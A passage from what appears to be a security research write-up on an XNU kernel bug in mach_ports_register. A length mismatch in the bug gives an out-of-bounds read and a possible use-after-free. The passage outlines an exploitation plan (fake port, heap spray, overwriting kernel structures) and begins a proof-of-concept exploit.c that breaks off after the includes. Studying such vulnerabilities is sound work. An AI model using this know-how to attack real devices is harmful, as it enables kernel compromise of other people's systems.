you might not notice it, but there is a little problem. actually, there are two length properties. first is the `portsCnt`, but the second is `init_port_set.count`. these properties are, of course, user-controllable. the real problem is, that the space for the data of that port is allocated with the `init_port_set.count` as size (from `osfmk/ipc/ipc_kmsg.c`):

```c
data = kalloc(count * sizeof(mach_port_t));
```

but the function `mach_ports_register` uses `portsCnt` as lengh. there is a check, but the numbers can still differ by 2. this will result in an oob at `for (i = 0; i < portsCnt; i++) ports[i] = memory[i];` and in an potential uaf (because using free with the wrong size) at `kfree(memory, (vm_size_t) (portsCnt * sizeof(mach_port_t)));`.

###### with the given vulnerabilities we can:
*   create a fake port using the OOB vulnerability
*   overwrite sensible structure data using the use after free vulnerability

###### in both cases, we need a heap spray to precisely place our chunks to get desirable results  

##### how do we reach `mach_ports_register`?
we need to go back to the Mach interface generator. when we call `mach_msg`, the MIG automatically generates a call to `mach_ports_register`. it is also possible to call the MIG function directly, however, we can only supply both length properties if we use `mach_msg`. the function will be called with the `portsCnt` property as length. as memory, it’ll use the previously allocated buffer for the struct.

### triggering the bug
##### poc:
```c
//
//  exploit.c
//  bitfriendsjb
//
//  Created by bitfriends on 03.02.22.
//  Copyright © 2022 bitfriends. All rights reserved.
//

#include "exploit.h"

#include <mach/mach.h>

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/time.h>
#include <pthread.h>

#include <mach/mach_error.h>
#include <mach/mach_port.h>
#include <mach/mach_time.h>
#include <mach/mach_traps.h>

#include <mach/mach_voucher_types.h>
#include <mach/port.h>

#include <CoreFoundation/CoreFoundation.h>


typedef struct {
    mach_msg_header_t head;
    mach_msg_body_t msgh_body;
    mach_msg_ool_ports_descriptor_t init_port_set;
    NDR_record_t ndr;
```